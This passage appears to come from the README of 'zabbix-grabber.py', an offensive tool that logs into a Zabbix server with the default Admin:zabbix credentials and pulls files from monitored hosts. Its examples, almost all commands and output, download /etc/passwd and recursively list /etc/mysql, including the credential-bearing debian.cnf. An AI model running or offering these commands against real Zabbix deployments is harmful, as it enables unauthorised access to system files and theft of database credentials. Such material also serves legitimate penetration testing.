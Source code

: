 ```
 |___  /    | |   | |   (_)       / ____|         | |   | |                                                                                                                                                                                  
    / / __ _| |__ | |__  ___  __ | |  __ _ __ __ _| |__ | |__   ___ _ __                                                                                                                                                                     
   / / / _` | '_ \| '_ \| \ \/ / | | |_ | '__/ _` | '_ \| '_ \ / _ \ '__|                                                                                                                                                                    
  / /_| (_| | |_) | |_) | |>  <  | |__| | | | (_| | |_) | |_) |  __/ |                                                                                                                                                                       
 /_____\__,_|_.__/|_.__/|_/_/\_\  \_____|_|  \__,_|_.__/|_.__/ \___|_|                                                                                                                                                                       

By: rM3ofM3

Connecting to http://192.168.0.33/zabbix using Admin:zabbix.
[Successful logon to Zabbix version 6.4.]

File '/etc/passwd' downloaded into '/root/ZABBIX/ZGFiles/10084/etc/passwd'.
```
5. **Retrieve a collection of files**: using `-F "foldername"` in combination with `-G`. In this case, if you don't specify `-D` option, the tool will retrieve all files in a folder.
When you combine it with `-R REGEX` and `-L RECURSIVE_LEVELS` you will be able to download files from folders and subfolders.
Example:
```
$ python3 zabbix-grabber.py -A http://192.168.0.33/zabbix -H 10084 -F "/etc/mysql" -L 2 -G
  ______     _     _     _         _____           _     _               
 |___  /    | |   | |   (_)       / ____|         | |   | |                                                                                                                                                                                  
    / / __ _| |__ | |__  ___  __ | |  __ _ __ __ _| |__ | |__   ___ _ __                                                                                                                                                                     
   / / / _` | '_ \| '_ \| \ \/ / | | |_ | '__/ _` | '_ \| '_ \ / _ \ '__|                                                                                                                                                                    
  / /_| (_| | |_) | |_) | |>  <  | |__| | | | (_| | |_) | |_) |  __/ |                                                                                                                                                                       
 /_____\__,_|_.__/|_.__/|_/_/\_\  \_____|_|  \__,_|_.__/|_.__/ \___|_|                                                                                                                                                                       

By: rM3ofM3

Connecting to http://192.168.0.33/zabbix using Admin:zabbix.
[Successful logon to Zabbix version 6.4.]

Contents in '/etc/mysql' using 2 levels of recursivity:

Regular expression filter: ''

2024-12-07 09:09  /etc/mysql/mysql.cnf  (682.00 B)
2024-12-07 09:09  /etc/mysql/debian-start  (120.00 B)
2024-12-07 09:08  /etc/mysql/my.cnf.fallback  (839.00 B)
2024-12-07 09:09  /etc/mysql/debian.cnf  (317.00 B)
2024-12-07 09:08  /etc/mysql/my.cnf  (24.00 B)
2024-12-07 09:08  /etc/mysql/conf.d/mysql.cnf  (8.00 B)
2024-12-07 09:08  /etc/mysql/conf.d/mysqldump.cnf  (55.00 B)
```